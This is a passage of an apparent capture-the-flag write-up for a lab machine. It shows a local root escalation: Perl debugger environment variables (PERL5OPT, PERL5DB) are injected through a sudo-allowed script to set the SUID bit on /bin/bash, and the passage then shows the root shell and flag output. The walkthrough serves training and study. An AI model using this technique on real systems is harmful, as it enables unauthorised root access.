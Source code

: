 ```perl
jack@clicker:/$ cat /usr/bin/xml_pp
#!/usr/bin/perl -w
# $Id: /xmltwig/trunk/tools/xml_pp/xml_pp 32 2008-01-18T13:11:52.128782Z mrodrigu  $
use strict;

use XML::Twig;
use File::Temp qw/tempfile/;
use File::Basename qw/dirname/;

my @styles= XML::Twig->_pretty_print_styles; # from XML::Twig
my $styles= join '|', @styles;               # for usage
my %styles= map { $_ => 1} @styles;          # to check option

my $DEFAULT_STYLE= 'indented';

my $USAGE= "usage: $0 [-v] [-i<extension>] [-s ($styles)] [-p <tag(s)>] [-e <encoding>] [-l] [-f <file>] [<files>]";

# because of the -i.bak option I don't think I can use one of the core
# option processing modules, so it's custom handling and no clusterization :--(
...
...
```
{: .nolineno}

I used this exploit `perl_startup` that exploit works on `Perl injection vulnerability` →

[https://www.exploit-db.com/exploits/39702](https://www.exploit-db.com/exploits/39702)

```bash
jack@clicker:/$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
jack@clicker:/$ sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
	(Maybe you meant system() when you said exec()?)
jack@clicker:/$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
jack@clicker:/$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
bash-5.1# cd /root
bash-5.1# ls -al
total 40
drwx------  7 root root 4096 Sep  6 12:40 .
drwxr-xr-x 18 root root 4096 Sep  5 19:19 ..
lrwxrwxrwx  1 root root    9 Sep  5 18:46 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Feb 25  2023 .cache
drwxr-xr-x  2 root root 4096 Nov 20 09:16 diagnostic_files
drwxr-xr-x  3 root root 4096 Feb 25  2023 .local
lrwxrwxrwx  1 root root    9 Sep  6 12:30 .mysql_history -> /dev/null
-rw-r--r--  1 root root  193 Feb 27  2023 .profile
drwxr-xr-x  2 root root 4096 Sep  5 19:19 restore
-rw-r-----  1 root root   33 Nov 19 23:11 root.txt
drwx------  2 root root 4096 Sep  6 12:36 .ssh
bash-5.1# cat root.txt
ac684e5dab6e8838569f079935515914
bash-5.1#
```
{: .nolineno}
